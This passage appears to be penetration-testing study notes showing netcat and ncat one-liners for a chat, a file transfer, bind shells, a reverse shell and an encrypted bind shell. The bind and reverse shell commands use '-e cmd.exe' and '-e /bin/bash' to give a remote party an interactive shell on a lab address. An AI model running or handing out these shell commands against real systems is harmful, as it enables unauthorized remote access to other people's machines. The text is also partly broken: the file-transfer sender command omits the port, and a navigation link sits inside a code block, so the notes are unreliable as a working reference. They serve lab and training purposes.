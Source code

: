 #### Netcat chat
```
# Set netcat in server mode and listen in port 4444
nc -nvlp 4444 

Set netcat as a tcp client to connect to port 4444
$ nc -nv 192.168.56.101 4444
```
[Back to Table of Contents](#Table-of-Contents)

#### Netcat transferring file
```
# PC that wil receive the file
nc -nvlp 4444 > incoming.exe (PC  that  will  receive) 

# PC that will trasfer the file
nc -nv 192.168.56.101 < /usr/share/windows-binaries/wgwt.exe
```

[Back to Table of Contents](#Table-of-Contents)

#### Netcat Bind Shell
```
# Windows PC
nc -nvlp 4444 -e cmd.exe

# Kali PC
nc -nv 192.168.56.101 4444
```
[Back to Table of Contents](#Table-of-Contents)

#### Netcat Reverse Shell
```
# Windows PC
nc -nvlp 4444

# Kali PC
nc -nv 192.168.56.101 4444 -e /bin/bash
```
[Back to Table of Contents](#Table-of-Contents)

#### Netcat Bind Shell Encrypted
```
[Back to Table of Contents](#Table-of-Contents)
# Windows PC 
C:\Users\sherwinowen>ncat  -lvp  4444  -e  cmd.exe  --allow 192.168.56.1 --ssl

# Kali PC 
ncat -v 192.168.56.101 4444 --ssl
```
[Back to Table of Contents](#Table-of-Contents)

## Passive Information Gathering
